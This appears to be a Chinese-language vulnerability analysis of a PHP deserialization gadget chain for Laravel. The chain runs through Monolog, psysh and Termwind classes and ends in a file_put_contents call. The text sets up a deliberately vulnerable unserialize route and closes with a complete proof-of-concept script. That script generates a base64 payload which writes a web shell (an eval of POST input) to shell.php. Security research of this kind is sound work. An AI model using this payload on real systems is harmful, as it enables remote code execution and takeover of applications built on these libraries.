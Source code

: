 

## 漏洞分析
`routes/web.php`添加反序列化利用点

```PHP
Route::get("/vul", function (\Illuminate\Http\Request $request) {  
    $str = $request->input("data");  
    unserialize(base64_decode($str));;  
});
```


`vendor/monolog/monolog/src/Monolog/Handler/Handler.php#__destruct()`
该类为abstract抽象类
```PHP
abstract class Handler implements HandlerInterface  
{
	...
	public function __destruct()  
	{  
	    try {  
	        $this->close();  
	    } catch (\Throwable $e) {  
	        // do nothing  
	    }  
	}
	...
}
```
实现类
![](attachments/Pasted%20image%2020241014222431.png)

`vendor/monolog/monolog/src/Monolog/Handler/GroupHandler.php#close()`
GroupHandler对象实例销毁后，调用抽象类的`__destruct`，抽象类close()方法的使用实质调用了其自身的close()方法
```PHP
class GroupHandler extends Handler implements ProcessableHandlerInterface, ResettableInterface  
{  
    use ProcessableHandlerTrait;  
  
    /** @var HandlerInterface[] */  
    protected array $handlers;  
    protected bool $bubble;
    ...
    public function close(): void  
	{  
	    parent::close();  
  
	    foreach ($this->handlers as $handler) {  
	        $handler->close();  
	    }  
	}
	...
}
```

`vendor/psy/psysh/src/Readline/Hoa/Stream.php`
仍为abstract抽象类，选择实现类为FileRead，也就是说等同于`$this->handlers = new FileRead()`，执行`$streamName = $this->getStreamName();`后一直到md5函数的执行，此时`$streamName`为对象时，触发该对象的`__toString`魔术方法

```PHP
abstract class Stream implements IStream, EventListenable  
{  
    use EventListens;
    final public function close()  
	{  
	    $streamName = $this->getStreamName();  
	  
	    if (null === $streamName) {  
	        return;  
	    }  
	  
	    $name = \md5($streamName);  
	  
	    if (!isset(self::$_register[$name])) {  
	        return;  
	    }  
	  
	    Event::notify(  
	        'hoa://Event/Stream/'.$streamName.':close-before',  
	        $this,  
	        new EventBucket()  
	    );  
	  
	    if (false === $this->_close()) {  
	        return;  
	    }  
  
	    unset(self::$_register[$name]);  
	    $this->_bucket[self::HANDLER] = null;  
	    Event::unregister(  
	        'hoa://Event/Stream/'.$streamName  
	    );  
	    Event::unregister(  
	        'hoa://Event/Stream/'.$streamName.':close-before'  
	    );  
	  
	    return;  
	}
}    
```

`getStreamName()`

```PHP
public function getStreamName()  
{  
    if (empty($this->_bucket)) {  
        return null;  
    }  
  
    return $this->_bucket[self::NAME];  
}
```

`vendor/nunomaduro/termwind/src/Components/Element.php`

```PHP
abstract class Element  
{
	public function toString(): string  
	{  
	    if (is_array($this->content)) {  
	        $inheritance = new InheritStyles();  
	        $this->content = implode('', $inheritance($this->content, $this->styles));  
	    }  
	  
	    return $this->styles->format($this->content);  
	}
}
```

![](attachments/Pasted%20image%2020241015095436.png)

```PHP

protected Styles $styles;
final public function __toString(): string  
{  
    return $this->toString();  
}

public function toString(): string  
{  
    if (is_array($this->content)) {  
        $inheritance = new InheritStyles();  
        $this->content = implode('', $inheritance($this->content, $this->styles));  
    }  
  
    return $this->styles->format($this->content);  
}
```

这里的`$this->styles`来于
`vendor/nunomaduro/termwind/src/ValueObjects/Styles.php`

`$modifier`数值可控设置为file_put_contents，直接将$this->properties 作为file_put_contents参数

```PHP
final public function format(string $content): string  
{  
    foreach ($this->textModifiers as $modifier) {  
        $content = $modifier(  
            $content,  
            $this->properties['styles'] ?? [],  
            $this->properties['parentStyles'] ?? []  
        );  
    }  
  
    $content = $this->applyWidth($content);  
  
    foreach ($this->styleModifiers as $modifier) {  
        $content = $modifier($content, $this->properties['styles'] ?? []);  
    }  
  
    return $this->applyStyling($content);  
}
```
## POC

```PHP
<?php
namespace Termwind\ValueObjects{
    Class Styles{
        private array $textModifiers;
        private array $properties;
        public function __construct(){
            $this->textModifiers = ["file_put_contents"];
            $this->properties = ["styles"=>"<?php phpinfo();eval(\$_POST[1]);?>", "parentStyles"=>0];
        }
    }
}
namespace Termwind\Components{
    use Termwind\ValueObjects\Styles;
    abstract Class Element{
        protected string $content;
        protected Styles $styles;
        public function __construct()
        {
            $this->content = 'shell.php';
            $this->styles = new Styles();
        }
    }
    Class Hr extends Element{}
}
namespace Psy\Readline\Hoa{
    use Termwind\Components\Hr;

    abstract Class Stream{
        protected $_bucket;
        public function __construct(){
            $this->_bucket = [new Hr()];
        }
    }
    Class FileRead extends Stream {}
}

namespace Monolog\Handler{
    use Psy\Readline\Hoa\FileRead;
    Class GroupHandler{
        protected array $handlers;
        public function __construct(){
            $this->handlers = [new FileRead()];
        }
    }
}

namespace {
    $obj = new Monolog\Handler\GroupHandler();
    echo serialize($obj);

    echo base64_encode(serialize($obj));
}
```
